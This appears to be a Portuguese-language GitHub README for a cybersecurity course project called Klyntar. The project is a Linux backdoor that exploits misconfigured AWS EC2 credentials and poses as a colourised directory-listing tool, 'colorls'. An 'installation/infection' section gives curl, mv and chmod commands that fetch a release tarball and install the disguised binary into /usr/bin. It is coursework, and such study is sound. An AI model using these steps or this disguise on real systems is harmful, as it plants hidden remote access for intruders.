 <!-- PROJECT LOGO -->

<p align="center">
    <img src="doc/images/venom_0c44_360x640.jpg" alt="Logo" width="340" height="640">
  <p align="center">
    Trabalho da disciplina de Cybersecurity para criação de um vírus que explora vunerabilidade de credenciais mal configuradas em servidores AWS EC2. 
  </p>
</p>

## O desafio! 

Elaborar um vírus da categoria back door que possibilite a execução remota de ações no sistema operacional hospedeiro (Linux).

## O disfarce

O programa se disfarça como uma simples ferramenta de comando para mostrar os diretorios da instância colorido :smile:.

## Porque Klyntar?

O simbionte Venom personagem da Marvel nem sempre foi o inimigo do Homem-Aranha ou um item de seu guarda-roupa. Sua origem está associada a um longínquo planeta na galáxia de Andrômeda, chamado *Klyntar*. Venom é um membro de uma raça alienígena de simbiontes que recebem o mesmo nome de seu planeta natal.

## Instalação/Infecção

``` bash
curl https://github.com/gabriel-dantas98/klyntar/releases/download/0.0.2/colorls.tar 
mv colorls /usr/bin/
chmod +x /usr/bin/colorls

colorls help

colorls install
```

## Por trás dos panos 

